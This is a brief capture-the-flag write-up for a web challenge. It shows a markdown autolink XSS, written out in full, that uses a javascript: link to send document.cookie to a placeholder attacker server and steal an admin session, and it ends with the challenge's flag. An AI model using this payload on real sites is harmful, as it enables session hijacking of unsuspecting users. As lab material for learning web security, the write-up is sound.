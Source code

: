 # Writeup

### Challenge available at `https://mistune.flatearth.fluxfingers.net/`

# Description:
 Try to steal admin cookie. Admin will click on ```<a>``` tag. This challenge has XSS vulnerability by which you can use it to steal admin cookie.

# Test:

After searching for a while i found this maybe useful ```<javascript:alert('xss')>```, and the result:

Then i try ```<javascript:alert(document.cookie)>```, the result:

# Exploit:

After testing, i will try to get current session to my server before send script to admin
```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>``` then i receive this:

Now we are ready to steal admin cookie ```<javascript:document.location='your/server/here/cookie.php?cookie='+document.cookie>```

And #BINGO

# flag{92da883eb1df9d1287ff25f1a1099f29}

